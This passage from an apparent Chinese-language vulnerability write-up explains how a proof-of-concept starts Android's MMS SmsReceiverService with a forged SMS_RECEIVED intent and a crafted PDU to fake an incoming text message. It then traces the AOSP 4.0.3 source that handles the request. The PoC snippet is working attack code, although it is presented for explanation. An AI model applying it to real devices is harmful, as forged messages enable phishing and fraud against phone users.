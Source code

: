### 启动<code>SmsReceiverService</code>

{% codeblock MainActivity.java lang:java %}
// pass to SmsReceiverService which has the permission to send short message
Intent intent = new Intent(); 
intent.setClassName("com.android.mms", "com.android.mms.transaction.SmsReceiverService"); 
intent.setAction("android.provider.Telephony.SMS_RECEIVED");
intent.putExtra("pdus", new Object[] { pdu }); 
intent.putExtra("format", "3gpp"); 
context.startService(intent); 
{% endcodeblock %}

* POC在上图代码中启用了短信接收服务（`SmsReceiverService`），当服务启动时，经过了`onStartCommand` → `mServiceHandler.sendMessage(msg)`，消息进入`ServiceHandler`的消息队列中，在`handleMessage`中得到处理，由于`action`是`SMS_RECEIVED`，所以进入`handleSmsReceived`函数。

{% codeblock SmsReceiverService.java lang:java http://androidxref.com/4.0.3_r1/xref/packages/apps/Mms/src/com/android/mms/transaction/SmsReceiverService.java#124ServiceHandler first_line:124 mark:138 %}
@Override
public int onStartCommand(Intent intent, int flags, int startId) {
// Temporarily removed for this duplicate message track down.

        mResultCode = intent != null ? intent.getIntExtra("result", 0) : 0;

        if (mResultCode != 0) {
            Log.v(TAG, "onStart: #" + startId + " mResultCode: " + mResultCode +
                    " = " + translateResultCode(mResultCode));
        }

        Message msg = mServiceHandler.obtainMessage();
        msg.arg1 = startId;
        msg.obj = intent;
        mServiceHandler.sendMessage(msg);
        return Service.START_NOT_STICKY;
    }
{% endcodeblock %}

{% codeblock SmsReceiverService.java#ServiceHandler lang:java http://androidxref.com/4.0.3_r1/xref/packages/apps/Mms/src/com/android/mms/transaction/SmsReceiverService.java#177ServiceHandler first_line:177 mark:205 %}
	private final class ServiceHandler extends Handler {
		public ServiceHandler(Looper looper) {
			super(looper);
		}

        /**
         * Handle incoming transaction requests.
         * The incoming requests are initiated by the MMSC Server or by the MMS Client itself.
         */
        @Override
        public void handleMessage(Message msg) {
            int serviceId = msg.arg1;
            Intent intent = (Intent)msg.obj;
            if (Log.isLoggable(LogTag.TRANSACTION, Log.VERBOSE)) {
                Log.v(TAG, "handleMessage serviceId: " + serviceId + " intent: " + intent);
            }
            if (intent != null) {
                String action = intent.getAction();
